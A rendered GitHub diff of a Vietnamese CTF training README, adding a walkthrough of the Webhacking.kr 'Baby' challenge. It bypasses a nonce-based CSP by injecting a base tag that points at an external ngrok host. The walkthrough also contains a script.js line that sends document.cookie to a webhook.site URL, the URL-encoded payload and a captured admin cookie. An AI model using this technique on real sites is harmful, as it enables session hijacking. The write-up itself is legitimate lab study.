

Before and after one commit to caodchuong312/KCSC-Training, a Markdown page: task5/README.md, the part around the change. Shown at 85% size. GitHub-like rendering; blank space fills up the shorter version; grey boxes are pictures that could not be loaded.

````diff
--- a/task5/README.md
+++ b/task5/README.md
@@ -209,3 +209,48 @@ Gửi lên và chờ kết quả:
 ![image](https://user-images.githubusercontent.com/92881216/223998867-e73b1e6c-91be-486e-b029-b71de8b6fdc7.png)
 
 > `ADMIN_COOKIE=SY2USDIH78TF3DFU78546TE7F`
+
+# Webhacking.kr:
+## Baby
+Xem qua web và source code thì em nhận thấy biến `inject` có thể là nơi xss và chức năng report là gửi url đến admin, chức năng này là thẻ a và được tạo ra từ file `script.js`.
+![image](https://user-images.githubusercontent.com/92881216/224082610-833427cc-e04d-4183-b4cc-fe78a2a9d2cb.png)
+
+![image](https://user-images.githubusercontent.com/92881216/224082906-2bb1fb70-2f5a-41c8-ab5b-5505a6f25069.png)
+
+![image](https://user-images.githubusercontent.com/92881216/224082985-62c0d449-db1a-410d-bd0a-f1a1d4fec103.png)
+
+Đầu tiên em thử với payload đơn gián : `<h1>abc</h1>` được :
+![image](https://user-images.githubusercontent.com/92881216/224084380-12b218b6-894f-4ae5-b398-c43cbc4f290c.png)
+
+Tiếp tục với payload `<script>alert(1)</script>` nhưng không có gì xảy ra, em check thử source thì không có gì thay đổi ở payload :
+
+![image](https://user-images.githubusercontent.com/92881216/224084797-94c2db89-9e3b-42b1-8235-38a730107ec3.png)
+
+Tuy nhiên script không được thực thi, em check lại header và biết được web được bảo vệ bởi CSP :
+
+![image](https://user-images.githubusercontent.com/92881216/224085505-b667c2fb-6be7-4bfd-b615-9ff089e54b1a.png)
+
+Với header là  `Content-Security-Policy: script-src 'nonce-QUrU8F7+Vi+GbEFLIHSJxt52Gm8=';` Như vậy giá trị `nonce` được gán vào tag `script` và tag `script` có giá trị `nonce` đó mới được thực thi. Đây là giá trị ngẫu nhiên và được làm mới sau mỗi lần refresh trang và để biết trước được là điều bất khả thi. Em tiếp tục tìm kiếm cách bypass loại này và xem đc bài này : https://book.hacktricks.xyz/pentesting-web/content-security-policy-csp-bypass#missing-base-uri
+
+Thẻ `script` trong bài này được gắn attribute `scr=/script.js` và web thực thi nội dung trong file script.js. Đây là đường dẫn tương đối và base-uri chưa được định nghĩa và vì vậy ta thể tạo ra một thẻ `base` để xác định base-uri. Ví dụ về thẻ base: `<base href="https://www.attacker.com/">` và khi đó script.js sẽ có đường dẫn tuyệt đối là : `https://www.attacker.com/script.js` và kẻ tấn công có thể thực thi file script.js này của hắn lên ứng dụng web.
+Cách thức là vậy, bây giờ em sẽ tiến hành tạo file `script.js` để lấy cookie có nội dung:
+```
+document.location ="https://webhook.site/509048d1-6397-4a3f-ac0f-9133e64a24dd?c=" + document.cookie;
+```
+Cùng với đó là một web server chứa file scrip.js : `https://12bc-42-1-70-84.ap.ngrok.io` sao cho:
+
+![image](https://user-images.githubusercontent.com/92881216/224092598-015a4190-6d83-4ce4-a043-e058390dca3c.png)
+
+Và bây giờ tạo thẻ base đưa vào `?inject=`:
+```
+<base href="https://12bc-42-1-70-84.ap.ngrok.io/" >
+```
+Cuối cùng là mã hóa URL và gửi cho admin:
+```
+?inject=%3Cbase%20href=%22https://12bc-42-1-70-84.ap.ngrok.io/%22%20%3E
+```
+Kết quả:
+
+![image](https://user-images.githubusercontent.com/92881216/224093333-dd33b73d-16dc-4f56-a93e-5b583d1eda1f.png)
+
+> `flag=FLAG{base_is_basic}`
````
